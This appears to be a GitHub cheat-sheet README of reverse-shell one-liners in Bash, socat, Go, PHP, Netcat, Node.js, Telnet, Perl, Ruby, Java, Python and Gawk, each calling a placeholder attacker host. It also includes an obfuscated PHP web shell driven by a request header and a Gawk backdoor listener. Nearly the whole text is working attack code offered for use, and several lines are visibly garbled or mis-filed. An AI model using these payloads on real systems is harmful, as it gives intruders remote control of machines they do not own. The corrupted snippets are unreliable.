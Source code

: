 # REVERSE_SHELL_CHEAT_SHEET
###### This is my_reserve_shell method

![alt text](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Ftse1.mm.bing.net%2Fth%3Fid%3DOIP.CyVqkmA7wLYaippCGRXW5wHaEK%26pid%3DApi&f=1 "reverse_shell")

### Bash Reverse Shells
```
exec /bin/bash 0&0 2>&0
```
```
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```
exec 5<>/dev/tcp/ATTACKING-IP/80
cat <&5 | while read line; do $line 2>&5 >&5; done  

# or:

while read line 0<&5; do $line 2>&5 >&5; done
```

```
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

### socat Reverse Shell

```
socat tcp:ip:port exec:'bash -i' ,pty,stderr,setsid,sigint,sane &
```
### Golang Reverse Shell 

```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go
```

### PHP Reverse Shell

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. If it doesn't work, try 4,5, or 6)
```
##### another PHP reverse Shell

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>
```
##### Base64 encrypted version

```
<?=$x=explode('~',base64_decode(substr(getallheaders()['x'],1)));@$x[0]($x[1]);
```

### Netcat Reverse Shell
```
nc -lnvp 80
```

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
### Node.js Reverse Shell
```
require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');
```

### Telnet Reverse Shell 
```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```
### Perl Reverse Shell
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Perl Windows Reverse Shell
```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Ruby Reverse Shell
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
### Java Reverse Shell
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
### Gawk Reverse Shell
```
gawk 'BEGIN {P=4444;S="> ";H="192.168.1.100";V="/inet/tcp/0/"H"/"P;while(1){do{printf S|&V;V|&getline c;if(c){while((c|&getline)>0)print $0|&V;close(c)}}while(c!="exit")close(V)}}'
```

```
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```
